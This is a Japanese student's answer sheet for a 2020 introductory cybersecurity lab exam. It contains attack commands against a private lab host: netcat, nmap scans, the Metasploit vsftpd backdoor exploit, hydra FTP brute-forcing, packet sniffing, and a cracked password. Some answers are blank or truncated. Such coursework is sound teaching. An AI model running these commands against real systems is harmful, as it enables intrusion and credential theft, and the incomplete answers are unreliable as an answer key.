 # CyberSecurity I Exam 2020 回答用紙

## 問1 [netcat]

### サーバー側コマンド

```sh
#ここに回答を記述
nc -l 5555　 

```
### クライアント側コマンド

```sh
#ここに回答を記述
nc 192.168.33.5 5555

```

## 問2 [Password Crack]

```md
<!--  ここに回答を記述 -->
- omas2:foobar
```

## 問3 [Port Scanner]

### 1. ping scan

```sh
#ここに回答を記述
nmap -sP 192.168.33.0/24 

```

### 2. version scan

```sh
#ここに回答を記述
nmap -sV -p- 192.168.33.5 

```

## 問4 [Metasploit Framework]

```sh
#ここに回答を記述
use exploit/unix/ftp/vsftpd_234_backdoor 
 set RHOST 192.168.33.5
 exploit  

```

## 問5 [Online Password Cracker]


### 1. コマンド

```sh
#ここに回答を記述
hydra -L user.list -P passwd.list -t 8 192.168.33.5 ftp 

```

### 2. 解析結果

```sh
# 

```

## 問6 [Packet Sniffer]

```sh
#ここに回答を記述
sudo tcpdump -i eth1 -A host 192.168.33.5 and tcp port http

```

## 問7 [不正アクセス]

### 1. rootアクセスの件数

```md
<!--  ここに回答を記述 -->
14207
```

### 2. 不正アクセスユーザーのTOP3

```md
<!--  ここに回答を記述 -->

```
### 3. IPアドレスのアクセス件数と発信国

```md
<!--  ここに回答を記述 -->
- 123.207
- 49.232.39.21
- 118.25.139.201
```

## 問8 [自己評価]

```md
<!--  ここに回答を記述 -->
50
```

## 問9 [講義の感想]

```md
<!--  ここに回答を記述 -->
ハッキング体験で仮想環境を使ってハッキングの手順とかを勉強するのは楽しかったけど理解が追いついてないなとテストをして感じました。そもそものネットワークやpcについての理解が浅いのが原因だと思うので、そこは頑張らないとなと思いました。
```
